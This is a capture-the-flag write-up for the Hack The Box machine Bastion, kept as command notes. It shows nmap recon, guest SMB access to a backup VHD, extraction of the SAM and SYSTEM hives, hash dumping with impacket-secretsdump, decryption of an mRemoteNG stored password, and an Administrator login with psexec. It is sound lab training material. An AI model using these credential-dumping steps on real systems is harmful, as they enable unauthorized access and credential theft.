 # Bastion Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA bastion 10.10.10.134``

22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)

135/tcp open  msrpc        Microsoft Windows RPC

445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds                                                                            

# ${{\color{purple}Initial Foothold}}\ $  

### smb discovery of a backups repository **:white_check_mark:**

``smbclient -U 'guest%' -L //10.10.10.134``

``smbclient -U 'guest%' //10.10.10.134/Backups``

``mkdir /mnt/smb``

### As a first step I mounted the backups folder of the smb share

``mount -t cifs //10.10.10.134/Backups /mnt/smb``

### In a second time I mounted the .vhd file which is a virtual disk
### To mount a .vhd file on linux it's possible to use guestmount :

``apt install guestmount``

``mkdir /mnt/vhd``

``guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro -v /mnt/vhd``

### It can take time if the vhd file is big !

``cd /Windows/System32/config``

``cp SAM SYSTEM /home/kali/Documents/htb/bastion``

![bastion2](https://user-images.githubusercontent.com/123066149/218385163-14ed7ce6-ac30-4d45-acaf-929e8253b7a8.PNG)


``/usr/bin/impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM local``

![bastion1](https://user-images.githubusercontent.com/123066149/218384858-42bb0c03-16c4-4561-aca4-1d63c05ee822.PNG)

### After having found the hash of the users with secretsdump it is possible to connect on the machine with the user L4mpje


# ${{\color{purple}Exploitation}}\ $

# ${{\color{purple}Privilege Escalation}}\ $

### There is an uncommon tool that is mRmoteNG in  C:\Program Files\mRemoteNG
> google mremoteng extract password

``git clone https://github.com/haseebT/mRemoteNG-Decrypt``

### To find hidden files

``dir \a``  

### Retrieve the config file :

``C:\Users\L4mpje\AppData\Roaming\mRemoteNG\confCons.xml``

python mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==

![image](https://user-images.githubusercontent.com/123066149/218386180-fbcfe581-776c-4815-b696-9bab0c1dedd0.png)

### It is possible to use this password to make a ssh in administrator on the box or use psexec

``/usr/bin/impacket-psexec Administrator@10.10.10.134``

![image](https://user-images.githubusercontent.com/123066149/218386923-00d9227d-f7ab-41f8-a12e-efc91fe1a06b.png)

# ${{\color{purple}Points of Improvement}}\ $


- Look at the dates in the files on windows
